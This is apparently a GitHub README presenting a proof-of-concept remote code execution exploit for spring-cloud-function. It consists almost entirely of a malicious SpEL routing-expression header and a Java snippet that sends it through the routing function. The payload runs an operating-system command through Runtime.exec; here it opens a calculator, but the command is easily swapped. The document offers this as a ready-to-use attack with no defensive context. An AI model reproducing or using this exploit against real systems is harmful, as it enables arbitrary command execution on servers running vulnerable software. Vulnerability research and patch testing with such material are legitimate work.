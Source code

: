 # spring-spel-0day-poc
spring-cloud/spring-cloud-function RCE EXP POC
header
```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("open -a calculator.app")
```
## Poc
```java
Function function = functionCatalog.lookup(RoutingFunction.FUNCTION_NAME);
Message<String> message = MessageBuilder.withPayload("hello")
 				.setHeader(FunctionProperties.PREFIX + ".routing-expression",
 						"T(java.lang.Runtime).getRuntime().exec(\"open -a calculator.app\")")
 				.build();
function.apply(message);
```
